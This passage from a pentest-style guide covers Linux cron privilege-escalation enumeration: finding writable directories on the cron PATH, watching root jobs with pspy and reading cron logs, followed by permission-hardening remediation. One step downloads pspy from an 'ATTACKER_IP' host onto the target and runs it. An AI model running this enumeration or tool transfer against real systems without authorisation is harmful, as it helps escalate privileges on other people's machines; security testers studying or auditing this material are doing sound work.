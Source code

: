 ```bash
EOF
```

Cron environment and PATH checks:
```bash
# PATH declared for cron (if any)
grep -RnsE '^PATH=' /etc/crontab /etc/cron.d 2>/dev/null

# Typical default PATH for cron if not set is minimal like /usr/bin:/bin on Debian-like systems.
# Check if any PATH dirs are writable by current user (replace PATH_FROM_CRON accordingly if known)
PATH_FROM_CRON=$(grep -RnsE '^PATH=' /etc/crontab /etc/cron.d 2>/dev/null | tail -n1 | sed -E 's/.*PATH=//')
[ -z "$PATH_FROM_CRON" ] && PATH_FROM_CRON="/usr/bin:/bin"
echo "Cron PATH considered: $PATH_FROM_CRON"
IFS=:; for d in $PATH_FROM_CRON; do [ -d "$d" ] && stat -c "%A %a %U:%G %n" "$d"; [ -w "$d" ] && echo "Writable by current user: $d"; done; unset IFS
```

Observe scheduled activity (pspy):
```bash
# Transfer pspy (from your attack box hosting it via Python HTTP server, for example)
# On attacker:   cd /path/with/pspy && python3 -m http.server 8000
# On target:
wget -qO /tmp/pspy64 http://ATTACKER_IP:8000/pspy64 2>/dev/null || curl -fsSL -o /tmp/pspy64 http://ATTACKER_IP:8000/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64 -pf -i 1000
# Watch for recurring root-owned commands and note executable paths and arguments
```

Check cron logs to confirm timing:
```bash
# Debian/Ubuntu:
grep -i cron /var/log/syslog 2>/dev/null | tail -n 100
journalctl -u cron 2>/dev/null | tail -n 100

# RHEL/CentOS:
grep -i cron /var/log/cron 2>/dev/null | tail -n 100
journalctl -u crond 2>/dev/null | tail -n 100
```

Remediation (apply as root, adjust to your policy):
```bash
# Fix perms/ownership of cron files and scripts
chown root:root /etc/crontab /etc/cron.d/* 2>/dev/null
chmod 600 /etc/crontab 2>/dev/null
chmod 644 /etc/cron.d/* 2>/dev/null

# Lock down cron directories
chmod 700 /etc/cron.{daily,hourly,weekly,monthly} 2>/dev/null
chmod 755 /etc/cron.d 2>/dev/null
find /etc/cron* -type f -exec chmod go-w {} \; 2>/dev/null

# Ensure scripts are owned by root and not group/other writable
# Example: harden a script
chown root:root /usr/local/bin/backup.sh 2>/dev/null
chmod 700 /usr/local/bin/backup.sh 2>/dev/null

# Use absolute paths in scripts and set a safe PATH explicitly in cron files
# e.g., add at top of /etc/crontab or specific job file:
# PATH=/usr/sbin:/usr/bin:/sbin:/bin
```
